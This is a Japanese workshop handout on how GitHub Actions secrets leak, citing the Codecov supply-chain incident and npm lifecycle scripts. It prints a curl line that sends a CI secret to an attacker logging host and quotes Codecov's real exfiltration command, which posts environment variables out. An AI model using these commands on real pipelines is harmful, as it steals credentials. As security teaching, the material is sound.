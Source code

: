 `$TEST_SECRET`は、環境変数を表しています。
実行結果はどうだったでしょうか。secret の文字列がマスキングされていると思います。良かったですね。

## リクエストを用いて送信する
次に、`main2.yml`を見てみましょう。
このワークフローでは、シークレットを URL の一部として利用し、外部にリクエストを送っています。
```bash
curl curl http://attacker-logging-endpoint.sasakiy84.net/bbb/$TEST_SECRET
```

送信先サーバーへのアクセス方法を講義中に伝えます。
接続したら、以下のコマンドを実行してログを確認してください。

```bash
tail -f access.log | grep bbb
```

結果を見てみましょう。トークンが奪取されたことが確認できたでしょうか。

### 実際の事例（codecov）
https://about.codecov.io/security-update/

実際の攻撃コード
> The modified portion of the bash uploader script was as follows - curl -sm 0.5 -d “$(git remote -v)<<<<<< ENV $(env)” https://IPADDRESS/upload/v2 || true

Bash Uploader を編集された経緯
>  The actor gained access because of an error in Codecov’s Docker image creation process that allowed the actor to extract the credential required to modify our Bash Uploader script.

影響を受けた側であるメルカリの発表
https://about.mercari.com/press/news/articles/20210521_incident_report/

## より身近に脅威を感じてもらうために（npm）
次に、test 3 を実行してみましょう。
test 3 では、`npm i`を実行しています。
https://github.com/sasakiy84/github-actions-secret-test/blob/74b5bced472878469b99c7096feccbd6892b7cb4/.github/workflows/main3.yml#L13

`npm i`は、ライブラリをダウンロードするだけなので、問題なさそうです。
しかし、実際に実行してみると、トークンが奪取されてしまいます。


node のライブラリを管理するために npm というエコシステムが構築されており、世界の開発者が作成したライブラリが公開されています。
node のリポジトリを clone したらまずやることは、`npm install` をすることであり、これによって`package.json`の内容をもとに`node_modules`フォルダが作成され、その中にライブラリのコードがダウンロードされます。
このとき、`package.json`に記載のあるライブラリだけでなく、そこで記載のあるライブラリが依存しているライブラリもともにインストールされます。たとえば、nuxt は、nuxt が依存している vue のパッケージが`package.json`に記載されており、vue がインストールされます。
https://github.com/nuxt/nuxt/blob/4c027e4b40ea2bce86a4cebae8cb977ab4a26348/packages/nuxt/package.json#L104

「依存関係を再帰的に解決してインストールしてくれる」というのを覚えておいてください。

次に、別の知識として、npm の Life Cycle Scripts という機能を知っているでしょうか。
https://docs.npmjs.com/cli/v10/using-npm/scripts

